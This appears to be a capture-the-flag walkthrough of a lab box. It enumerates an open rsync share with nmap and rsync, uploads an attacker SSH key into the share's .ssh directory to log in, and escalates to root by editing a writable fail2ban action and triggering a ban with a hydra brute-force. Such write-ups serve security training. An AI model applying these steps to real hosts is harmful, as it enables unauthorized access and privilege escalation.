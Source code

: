 First we start with an nmap scan

`nmap -sC -sV -T4 -oN nmap.txt <IP>`

```
# Nmap 7.93 scan initiated Mon Dec 26 05:39:57 2022 as: nmap -sC -sV -T4 -oN quickmap.txt -Pn 192.168.108.126
Nmap scan report for 192.168.108.126
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74ba2023899262029fe73d3b83d4d96c (RSA)
|   256 548f79555ab03a695ad5723964fd074e (ECDSA)
|_  256 7f5d102762ba75e9bcc84fe27287d4e2 (ED25519)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 26 05:40:15 2022 -- 1 IP address (1 host up) scanned in 18.24 seconds
```

Nice got 2 ports ssh and rsync. Enumerating port 873 rsync service. using nmap script 

`nmap -sV --script "rsync-list-modules" -p 873 <IP>`

![image](https://user-images.githubusercontent.com/87468669/209510863-e5e95c22-eb6e-46c5-b30a-c0013a021738.png)

got the share name check what is listed in the share without auth.

`rsync -av --list-only rsync://<IP>/sharename` 

![image](https://user-images.githubusercontent.com/87468669/209511184-38424d7b-00f9-461b-bcdd-6b6bf124c235.png)

Tried to upload a file in the share and check.

```
touch shell
rysnc shell <IP>::share
rysnc -av --list-only rsync://<IP>/share
```

![image](https://user-images.githubusercontent.com/87468669/209511783-78584c8a-ed22-4cae-8b79-68c7685ed914.png)

worked. Attcking through ssh key, created an authorised key file in .ssh dir.

![image](https://user-images.githubusercontent.com/87468669/209512255-0ff0903b-1e55-4437-adae-42f458cfb5bc.png)

put my attacker id_rsa.pub key in the authorized_key file.

![image](https://user-images.githubusercontent.com/87468669/209512415-ab4eed7d-ab1c-48f2-ae25-26eaa83d2763.png)

Uploaded the auth_key into the share and list to confirm if it is there

`rsync -r ./.ssh/ <IP>::share/.ssh`

![image](https://user-images.githubusercontent.com/87468669/209513704-901a1070-fdfa-48b7-a877-880491523914.png)

Now ssh into the box

![image](https://user-images.githubusercontent.com/87468669/209516152-e540b299-ad87-41d7-85e0-e45c56c3b572.png)

Boom I'm in... i place it under my genjitsu 😂. proceed to escalate privs. By typing cmd id, the user fox is in a fail2ban group, so i check online for escalting privs with it. first i check the fail2ban.conf

![image](https://user-images.githubusercontent.com/87468669/209517563-571aa27c-f1ee-4b3e-9f4b-8f9a509fad09.png)

![image](https://user-images.githubusercontent.com/87468669/209516887-a86cf0a6-1682-4bc3-8e85-73f1f8f9c009.png)

The path above is writeable, so i edited it  

![image](https://user-images.githubusercontent.com/87468669/209517126-1af2a7cb-d04d-474a-b40d-f15cbe350322.png)

checking the fail2ba.conf file, the ban time is 1min, attempt before ban is 2 

![image](https://user-images.githubusercontent.com/87468669/209517655-6ca64846-64e0-47b1-99d9-f5fa979694b2.png)

now tried triggering it by bruteforcing ssh with hydra on it 🤠...

![image](https://user-images.githubusercontent.com/87468669/209518610-46de4eb0-c8d0-4940-8add-e90323b19b4f.png)

Boom I got banned, let's check the result of the ban action.

![image](https://user-images.githubusercontent.com/87468669/209519104-c702bb53-09ef-4561-9249-d243795c3f14.png)

Boom!!! I got root 😎😎.


